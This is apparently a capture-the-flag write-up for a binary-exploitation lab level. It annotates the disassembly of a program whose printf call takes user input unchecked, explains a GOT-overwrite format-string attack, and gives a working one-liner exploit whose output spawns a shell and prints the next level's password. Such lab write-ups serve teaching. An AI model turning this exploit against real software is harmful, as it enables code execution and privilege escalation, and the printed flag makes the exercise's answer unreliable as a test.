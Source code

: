
#### notes
```
8049854  m    : global variable m (useless here)
80484a4  o    : fn : called in n
80484c2  n    : fn : called in main
8048504  main : rak 3arf
```

#### 0x080484c2 : n() : disassembly
_`<0> -> <+3> : prepare stack frame for n function with size 536`_
```c
0x080484c2 <+0>:	push   ebp
0x080484c3 <+1>:	mov    ebp,esp
0x080484c5 <+3>:	sub    esp,0x218
```
_`<+9> -> <+35> : prepare arguments for fgets(str, size, stdin)`_
```c
0x080484cb <+9>:	mov    eax,ds:0x8049848 // stdin
0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax // esp+8 = stdin
0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200 // esp+4 = 512
0x080484dc <+26>:	lea    eax,[ebp-0x208] // char str[512]
0x080484e2 <+32>:	mov    DWORD PTR [esp],eax // esp = str
0x080484e5 <+35>:	call   0x80483a0 <fgets@plt> // fgets(str, 512, stdin)
```
_`<+40> -> <+49> : print the input from user taken by fgets`_
```c
0x080484ea <+40>:	lea    eax,[ebp-0x208] // eax = str
0x080484f0 <+46>:	mov    DWORD PTR [esp],eax // esp = *str
0x080484f3 <+49>:	call   0x8048380 <printf@plt> // printf(str)
```
_`<+54> -> <+61> : exit function`_
```c
0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```



#### 0x080484a4 : o() : disassembly
_`<+0> -> <+3> : init stack with size 24`_
```c
0x080484a4 <+0>:	push   ebp
0x080484a5 <+1>:	mov    ebp,esp
0x080484a7 <+3>:	sub    esp,0x18
```
_`<+6> -> <+13> : fork the shell with stystem call`_
```c
0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0 // "/bin/sh"
0x080484b1 <+13>:	call   0x80483b0 <system@plt> // system("/bin/sh")
```
_`<+18> -> <+25> : exit function`_
```c
0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
0x080484bd <+25>:	call   0x8048390 <_exit@plt>
```

---
#### Solution :
---

##### explanation of he exploit:

since the function `o` that calls the shell is not called in `n` function nor the main
so the idea here is : find a a vulnerability to call `o` from `n`
instead of exit the `n` we have to redirect it to execute the `o`
__how we will do that ?__ : 
- we have to overwrite the address where `<_exit@plt>` jumps (___global offset table___ __GOT__, search about it), to the address of `o` (_0x080484a4_)
ok lets start the process:

looking at the assembly of exit function inside the n function
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb)
```
the exit function jumps into `0x8049838` 
we have to change the value the value of this address by the address of `o` ->`0x080484a4`
since we have only printf as a door to the exploit we will have to use the `%n` methode to write address into address
___what ?___
yes , simply we convert the address we want to change with to decimal 
in our case:
```
exit -> 0x8049838
o    -> 0x080484a4(hex) -> 134513828(decimal)
```

final exploit : 
```shell
(python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d" + "%4$n"'; cat -) | ./level5

whoami
level6
pwd
/home/user/level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
